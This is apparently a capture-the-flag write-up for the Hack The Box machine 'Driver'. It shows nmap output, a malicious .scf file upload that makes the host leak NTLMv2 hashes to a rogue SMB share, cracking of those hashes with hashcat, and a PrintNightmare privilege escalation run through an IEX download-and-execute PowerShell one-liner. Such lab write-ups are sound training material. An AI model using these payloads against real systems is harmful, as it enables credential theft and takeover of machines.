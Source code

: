```yaml
---
title: "Driver - Easy"
date: 2021-12-26T06:08:28-08:00
---
```

### Tools Used
- Nmap
- Hashcat
- Responder 
- [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)
- [Print Nightmare](https://github.com/calebstewart/CVE-2021-1675)
---
# Foothold
### Enumeration
```

# Nmap 7.92 scan initiated Sun Dec 26 01:20:04 2021 as: nmap -sS -A -sC -sV -v -p- --min-rate 5000 -oN nmapresult.txt 10.10.11.106
Nmap scan report for 10.10.11.106
Host is up (0.062s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0

Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2008|10|7|Vista (90%)
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-12-26T13:22:08
|_  start_date: 2021-12-26T13:20:03
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 7h01m20s, deviation: 0s, median: 7h01m20s

# Nmap done at Sun Dec 26 01:21:24 2021 -- 1 IP address (1 host up) scanned in 79.99 seconds

```
When accessing the webpage, a typical admin login window appears. Entering "admin" for the username and password grants the attacker access to the webpage shows a "MFP Firmware Update Center" page. The 2 accessible pages are the landing page and a firmware update page. Viewing the Firmware Update Page shows a dropdown to select a printer model and an option to upload a firmware file. The firmware file however does not need to meet any requirements therefore any file can uploaded onto the host.
### Grabbing the User Hash with a Shell Command File attack
Using the file upload system, we can create a file that attempts to connect to a shared network that does not exist. While the host attempts to connect to it, the device shares it client, username and password hash

![NTLM replay attack| 800](https://miro.medium.com/max/1400/1*P_fB9CnsEhWdLqZ3FQyWTA.png)
To force the host to search for a invalid network share, a Shell Command File attack is used. Making a file with the extension of .sfc with the following commands makes the machine attempt to find a desktop icon on a shared drive that doesn't exist:
```

[Shell]
Command=2
IconFile=\\0.0.0.0\share\test.ico
[Taskbar]
Command=ToggleDesktop

```
Placing a NTLMv1 and NTLMv2 relayer, retrieves the following result on a terminal:
```

[SMB] NTLMv2 Client   : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:9b3f8d8ee7c6fded:3A2225F8351F18ACC3AFD18AD508D506:010100000000000000D375C455FBD701CA0CB377746A238000000000020000000000000000000000                                                                   
[SMB] NTLMv2 Client   : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:0a20e715a794923d:16966757E2F47AC7856F34BDDE220010:0101000000000000CAF99BC455FBD7012DD94D617599B7C000000000020000000000000000000000                                                                   
[SMB] NTLMv2 Client   : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:6a6048ad279deb14:9323B43336D05A6A194265D6E50EEE5F:0101000000000000F746C9C455FBD701BC23FD1C08D56DFD00000000020000000000000000000000                                                                   
[SMB] NTLMv2 Client   : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:1bee18ac9be63ca4:16A971732D68094D5F50A2FBD08DCBF6:01010000000000007ECDF1C455FBD701ED24F23F044BB6F400000000020000000000000000000000                                                                   
[SMB] NTLMv2 Client   : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:a924e81855a1be76:E5E9AA6CA1BD5EDD893E9036B283A265:0101000000000000F1B71CC555FBD7017CE0EA88A2451A0800000000020000000000000000000000                                                                   
[SMB] NTLMv2 Client   : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:c4e9b0bbaa1d974b:8454739B10124667AE90873D389BD6B6:01010000000000009A4045C555FBD701AAA3B0DD29393F7F00000000020000000000000000000000                                                                   
[SMB] NTLMv2 Client   : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:ab7a6255e7a0c069:26D9CC2D4E1F695CD908742C23EDDFA8:0101000000000000F55277C555FBD701C0BF682BD61B91FE00000000020000000000000000000000    

```
### Hashcat Result 
```

TONY::DRIVER:ab7a6255e7a0c069:26d9cc2d4e1f695cd908742c23eddfa8:0101000000000000f55277c555fbd701c0bf682bd61b91fe00000000020000000000000000000000:liltony
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: NetNTLMv2
Hash.Target......: TONY::DRIVER:ab7a6255e7a0c069:26d9cc2d4e1f695cd9087...000000
Time.Started.....: Mon Dec 27 07:22:29 2021 (0 secs)
Time.Estimated...: Mon Dec 27 07:22:29 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   423.5 kH/s (1.52ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 36864/14344385 (0.26%)
Rejected.........: 0/36864 (0.00%)
Restore.Point....: 30720/14344385 (0.21%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: !!!!!! -> holaz

```
Using the decrypted password, the credentials can be entered into evil-winrm in order to login as tony and retrieve user.txt off the desktop 

---
# Privilege  Escalation 
Once a foothold is retrieved, an exploit called [Print Nightmare](https://github.com/calebstewart/CVE-2021-1675) is used to create an admin user to retrieve root.txt. Due to the Execution Policy on the machine being restricted (shown by entering `Get-ExecutionPolicy`), an alternative way of executing the exploit must be used. While not being able to execute PowerShell files, the Invoke-Expression (IEX) allows a webclient to be run and then download the contents of a file and save it into memory 
`IEX(New-Object Net.Webclient).downloadstring('http://0.0.0.0/CVE-2021-1675.ps1')`
By abusing a logic flaw regarding adding printer drivers, a new user assigned to an administrator group can be created.
Once the account is created, the account can be logged into using Evil-RM and root.txt can be retrieved.
